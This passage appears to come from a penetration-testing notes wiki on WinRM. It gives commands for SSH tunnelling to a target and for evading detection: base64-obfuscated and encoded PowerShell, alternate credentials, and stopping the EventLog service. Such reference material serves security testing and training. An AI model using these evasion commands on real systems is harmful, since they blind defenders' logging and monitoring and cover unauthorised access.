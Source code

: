     ```bash
    ssh -L 5985:<target_ip>:5985 user@jump_host
    ```
* **Description:** Tunnels WinRM traffic through an SSH connection to bypass network restrictions and reach the target.

### Defense Evasion

#### Obfuscating PowerShell Commands

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('aW5zdGFsbCAtbW9kdWxlIFBob3Rvbi1CbG9n==')))}
    ```

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aGVsbG8gd29ybGQ=")) }
    ```
* **Description:** Obfuscates PowerShell commands sent via WinRM to avoid detection by security tools.

#### Using Encoded Commands

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    powershell.exe -encodedCommand <encoded_command>
    ```
* **Description:** Execute commands in an encoded format to bypass command-line logging and detection mechanisms.

#### Using Alternate Credentials

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    $cred = Get-Credential
    Invoke-Command -ComputerName <target_ip> -Credential $cred -ScriptBlock {Get-Service}
    ```
* **Description:** Executes commands using alternate credentials to avoid triggering alarms associated with certain accounts.

#### Disabling Event Logs

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock { Stop-Service -Name 'EventLog' }
    ```
* **Description:** Disables event logging on the target machine to evade detection.

#### Disabling WinRM Logging
